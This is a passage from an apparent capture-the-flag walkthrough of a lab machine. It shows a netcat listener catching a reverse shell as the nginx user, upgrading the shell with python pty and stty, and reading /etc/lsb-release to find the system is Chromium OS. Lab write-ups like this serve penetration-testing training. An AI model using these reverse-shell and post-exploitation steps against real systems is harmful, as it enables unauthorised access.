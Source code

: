     
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:44864.
    $ id
    uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)
    

I’ll upgrade my shell:

    
    
    $ python -c 'import pty;pty.spawn("bash")'
    <are/nginx/html/main/wp-content/plugins/0xdf-plug $ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset 
    reset: unknown terminal type unknown
    Terminal type? screen
    nginx@spectra /usr/local/share/nginx/html/main/wp-content/plugins/akismet $ 
    

## Shell as katie

### Enumeration

`/etc/lsb-release` solves the mystery about the OS:

    
    
    nginx@spectra ~ $ cat /etc/lsb-release 
    GOOGLE_RELEASE=87.3.41
    CHROMEOS_RELEASE_BRANCH_NUMBER=85
    CHROMEOS_RELEASE_TRACK=stable-channel
    CHROMEOS_RELEASE_KEYSET=devkeys
    CHROMEOS_RELEASE_NAME=Chromium OS
    CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
    CHROMEOS_RELEASE_BOARD=chromeover64
    CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
    CHROMEOS_RELEASE_BUILD_NUMBER=13505
    CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
    CHROMEOS_RELEASE_CHROME_MILESTONE=87
    CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
    CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
    CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
    CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
    CHROMEOS_RELEASE_VERSION=87.3.41
    CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
    

It’s Chrome!
